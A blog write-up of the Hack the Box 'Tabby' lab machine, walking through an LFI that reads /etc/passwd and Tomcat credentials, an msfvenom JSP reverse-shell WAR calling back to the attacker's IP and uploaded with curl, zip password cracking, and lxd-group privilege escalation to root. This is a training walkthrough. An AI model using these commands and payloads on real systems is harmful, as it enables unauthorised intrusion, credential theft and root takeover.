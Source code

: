 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "LFI", "burpsuite", "tomcat", "reverse shell", "netcat", "war file", "fcrackzip", "lxd"]
date = 2020-11-07T16:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/06/info-4.png"
slug = "hack-the-box-tabby"
summary = "Welcome back CTF nerds. Today we are doing the machine Tabby from Hack the Box. This is a Linux machine with an easy difficulty. Let's jump in!"
tags = ["hack the box", "Linux", "easy", "LFI", "burpsuite", "tomcat", "reverse shell", "netcat", "war file", "fcrackzip", "lxd"]
title = "Hack the Box - Tabby"
url = "/hack-the-box-tabby"

+++


Welcome back CTF nerds. Today we are doing the machine Tabby from Hack the Box. This is a Linux machine with an easy difficulty. Let's jump in!

Like we do with every box, kick it off with an `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.194`

Here are our results:
```
Nmap scan report for 10.10.10.194
Host is up (0.042s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http     Apache Tomcat
|_http-title: Apache Tomcat
8443/tcp open  ssl/http LXD container manager REST API
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=root@ghost/organizationName=linuxcontainers.org
| Subject Alternative Name: DNS:ghost, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2020-06-16T13:34:28
|_Not valid after:  2030-06-14T13:34:28
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

These results are pretty basic. `Tomcat` on 8080 a container manager and an `Apache` instance. When we visit the machine via a web browser we see that we have a hosting platform. When we start sifting through the source of the page, we see some useful things.

We see that the site is refereted to as `megahosting.htb` and there is a link toe a `.php` location with an argument.

![](/images/2020/06/image-83.png)

We'll add this to our hosts file and enumerate a bit. For starters we kick of a `gobuster` to see what else might be around.

Command:
`gobuster dir -u http://megahosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt`

While that runs, we'll also want to fuzz for subdomains.

Command:
`ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u 'http://FUZZ.megahosting.htb' -c -v`

While those run we'll check for some other basic things, like an `LFI`. We check the `news.php` location and sure enough, there is an `LFI`. We'll load up `Burpsuite` to help with this one.

![](/images/2020/06/image-84.png)

We send our `LFI` to the Repeater function and get the `passwd` file. We get this file so that we can get a good idea of the users on the machine.

![](/images/2020/06/image-85.png)

![](/images/2020/06/image-86.png)

We see our user we are potentially after is `Ash`. Now in addition to this, if we visit port `8080` we can see a 'default' `Tomcat` install.

![](/images/2020/06/image-87.png)

What we really want to take away from this is that it gives us quite a few paths. The one of particular interest is `/etc/tomcat9/tomcat-users.xml`. Now this isn't that standard path you might think. It's actually the path WITHIN the `tomcat9` instance.

![](/images/2020/06/image-92.png)

![](/images/2020/06/image-93.png)

Now that we have the user credentials we log in. Now that we can authenticate, we can look for some `Authenticated RCE's`. None of the 'standard' `Metasploit` modules seemed to work. Some googling around lead us [here](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/) and [here](https://gist.github.com/pete911/6111816). The first is on creating a backdoor using a `war` file. The second is how to leverage `curl` to upload the file.

Let's create our payload first.

Command:
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=
7777 -f WAR > exploit666.war`


This creates our payload.

![](/images/2020/06/image-94.png)

Now we just need to upload it following the gist above.

Command:
`curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file rootme.war "http://megahosting.htb:8080/manager/text/deploy?path=/exploit666.war"`


We use the `/manager/text/deploy` path as stated [here](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html).

![](/images/2020/06/image-91.png)

Now with our payload uploaded, we just need to start up a `netcat` listener and execute. To do that we browse to our payload on 8080. Once we do, we get a shell back on our listener! Note: I tried the above at first with `MSFPC` and wasn't able to catch a shell back.

![](/images/2020/06/image-95.png)

We'll upgrade our shell and look for a way to pivot into `ash`. We'll download `linpeas` and start enumerating. We see a file listed as `16162020_backup.zip`

![](/images/2020/06/image-96.png)

We'll try to download this and see what's inside.

![](/images/2020/06/image-97.png)

When we try to unzip it, we are prompted with a password.

![](/images/2020/06/image-98.png)

We can try to brute the password with `fcrackzip`.

Command:
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u 16162020_backup.zip`

![](/images/2020/06/image-99.png)

As we look through the files, its just a basic backup. Nothing to be found inside. So the next logical step is, well, maybe this user has reused passwords. We try to `su` to `ash`.

Command:
`su ash`

And it works!

![](/images/2020/06/image-100.png)

We head over to the users home directory and grab our `Users.txt` flag. We will generate an new keypair for this machine using `ssh-kegen`. We can then copy this key over to the `authorized_keys` file under Ash and SSH in. Now we can start our internal enumeration again, this time as Ash.

The enumeration doesn't come back with much. the `lxd` group is is a slightly different group to see a user as a part of. Some googleing around for 'Priv esc lxd` lead me to [this resource](https://www.hackingarticles.in/lxd-privilege-escalation/). We want this part in particular:

![](/images/2020/06/image-101.png)

Let's follow these steps as shown to hopefully escalate! From the PoC:

Command:
```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

The first run failed due to some kind of connectivity error. I simply deleted the rootfs folder and re-ran `./build-apline`. Once it finished successfully, we are left with a ziped file.

Now we spin up a `SimpleHTTPServer`.

Command:
`python -m SimpleHTTPServer 80`

And download the file. Now we import the image file.

Command: 
`lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias rfimage`

![](/images/2020/06/image-102.png)

We can use the `lxc image list` command to see if our image has been imported correctly.

![](/images/2020/06/image-103.png)

Now we issue config commands to our image.

Commands:
```
lxc init rfimage fire -c security.privileged=true
```

![](/images/2020/06/image-104.png)

`lxc config device add fire rfimage disk source=/ path=/mnt/root recursive=true`

![](/images/2020/06/image-105.png)

```
lxc start fire
lxc exec fire /bin/sh
```

![](/images/2020/06/image-106.png)

Now that we're in the contiainer we navigate to `/mnt/root` like the PoC says. This allows us to see all the resources from the host machine.

![](/images/2020/06/image-108.png)

Awesome! We head over to the `root` directory to group our `root.txt` flag!

![](/images/2020/06/image-107.png)

This box was pretty fun. If you enjoyed this write-up and / or learned something along the way, shoot some me some respect on [Hack The Box](https://www.hackthebox.eu/home/users/profile/95635).



